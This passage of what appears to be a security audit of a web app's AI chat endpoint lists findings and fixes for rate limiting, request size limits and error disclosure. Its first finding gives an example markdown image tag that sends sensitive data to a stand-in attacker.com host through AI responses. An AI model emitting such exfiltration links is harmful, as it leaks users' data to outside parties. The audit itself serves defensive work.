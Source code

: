 **Example Attack:**
```
![stolen data](https://attacker.com/steal?data=SENSITIVE_INFO)
```

**Fix Required:** Sanitize markdown and implement CSP headers:
```typescript
// Add Content Security Policy
headers: {
  'Content-Security-Policy': "img-src 'self' data: https:; default-src 'self'"
}

// Or strip/sanitize image tags from AI responses
```

### 5. **MEDIUM: No Rate Limiting**

**File:** `apps/web/app/api/ai/chat/route.ts`

**Issue:** No rate limiting on the AI endpoint.

**Risk:** Abuse, DoS attacks, and excessive API costs.

**Fix Required:** Implement rate limiting:
```typescript
import { rateLimit } from 'express-rate-limit';

// Add rate limiting middleware
const limiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100 // limit each IP to 100 requests per windowMs
});
```

### 6. **MEDIUM: No Request Size Limits**

**Issue:** No limits on request payload size.

**Risk:** Large payloads could cause DoS.

**Fix Required:** Add payload size limits in `next.config.js`:
```javascript
module.exports = {
  api: {
    bodyParser: {
      sizeLimit: '1mb',
    },
  },
}
```

### 7. **LOW: Error Information Disclosure**

**File:** `apps/web/lib/ai/tools.ts`

**Issue:** Detailed error messages are returned to the client.
